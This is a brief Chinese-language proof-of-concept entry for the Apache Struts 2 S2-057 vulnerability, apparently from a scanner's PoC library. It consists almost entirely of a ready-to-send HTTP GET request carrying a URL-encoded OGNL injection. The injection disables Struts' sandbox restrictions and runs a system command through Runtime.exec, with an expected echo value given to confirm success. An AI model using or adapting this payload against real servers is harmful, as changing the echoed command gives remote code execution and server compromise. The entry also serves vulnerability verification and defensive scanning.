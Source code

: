 ﻿# S2_057

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
GET /%24%7B%0A(%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23ct%3D%23request%5B'struts.valueStack'%5D.context).(%23cr%3D%23ct%5B'com.opensymphony.xwork2.ActionContext.container'%5D).(%23ou%3D%23cr.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ou.getExcludedPackageNames().clear()).(%23ou.getExcludedClasses().clear()).(%23ct.setMemberAccess(%23dm)).(%23a%3D%40java.lang.Runtime%40getRuntime().exec('echo%2078468794903108696')).(%40org.apache.commons.io.IOUtils%40toString(%23a.getInputStream()))%7D/actionChain1.action HTTP/1.1
```

> 响应代码特征：-1

> 响应内容特征：78468794903108696

> 上传文件定位：

> 验证文件来源：S2_057.poc
